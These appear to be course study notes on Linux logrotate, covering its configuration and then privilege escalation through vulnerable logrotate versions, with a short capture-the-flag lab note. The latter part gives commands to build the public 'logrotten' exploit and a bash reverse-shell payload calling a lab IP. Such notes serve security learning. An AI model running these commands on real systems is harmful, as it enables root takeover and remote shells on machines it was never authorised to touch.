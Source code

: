 `Logrotate` has many features for managing these log files. These include the specification of:

- the `size` of the log file,
- its `age`,
- and the `action` to be taken when one of these factors is reached.

```shell
man logrotate
```
```shell
logrotate --help
```

The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

```shell
cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:
```shell
sudo cat /var/lib/logrotate.status
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.
```shell
ls /etc/logrotate.d/
```

```shell
cat /etc/logrotate.d/dpkg
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell
git clone https://github.com/whotwagner/logrotten.git
```

```shell
cd logrotten
```

```shell
gcc logrotten.c -o logrotten
```

```shell
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`
```shell
grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

```shell
./logrotten -p ./payload /tmp/tmp.log
```

## Lab

/backups contains access.log and access.log1

start log rotate for access.log
when we write to access.log...log rotate is called and it writes another log there

then we need to wait for root to login which is set up as a cron locally after that we get flag

### References

- [logrotten Github](https://github.com/whotwagner/logrotten)


### Extra Learnings

- Watch command
- last | head --> Last logins